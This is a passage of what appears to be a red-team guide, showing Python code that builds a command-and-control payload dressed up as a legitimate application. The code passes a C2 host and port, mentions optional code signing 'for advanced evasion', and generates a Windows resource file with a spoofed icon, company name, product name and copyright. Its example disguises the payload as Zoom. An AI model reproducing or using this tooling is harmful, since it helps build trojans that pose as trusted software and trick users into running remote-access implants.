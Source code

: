 ```python
    # 2. Build payload with branding
    build_with_branding(template, c2_host, c2_port, output_dir)
    
    # 3. Sign (optional - for advanced evasion)
    # sign_executable(output_file)
    
    print(f"✅ Branded payload created: {output_dir}/{template['filename']}")
    return True

def create_resource_file(template):
    """Generate Windows resource file with branding"""
    rc_content = f"""
1 ICON "{template['icon']}"

1 VERSIONINFO
FILEVERSION     1,0,0,0
PRODUCTVERSION  1,0,0,0
FILEFLAGSMASK   0x3fL
FILEFLAGS       0x0L
FILEOS          VOS__WINDOWS32
FILETYPE        VFT_APP
BEGIN
    BLOCK "StringFileInfo"
    BEGIN
        BLOCK "040904b0"
        BEGIN
            VALUE "CompanyName",      "{template['company']}"
            VALUE "FileDescription",  "{template['description']}"
            VALUE "FileVersion",      "1.0.0.0"
            VALUE "InternalName",     "{template['product']}"
            VALUE "LegalCopyright",   "Copyright © {datetime.now().year} {template['company']}"
            VALUE "OriginalFilename", "{template['filename']}"
            VALUE "ProductName",      "{template['product']}"
            VALUE "ProductVersion",   "1.0.0.0"
        END
    END
END
"""
    with open("resource.rc", "w") as f:
        f.write(rc_content)

# Example usage
if __name__ == "__main__":
    build_branded_payload("zoom", "192.168.1.100", 8443)
```

---

## 🎓 Red Team Best Practices

### Do's ✅
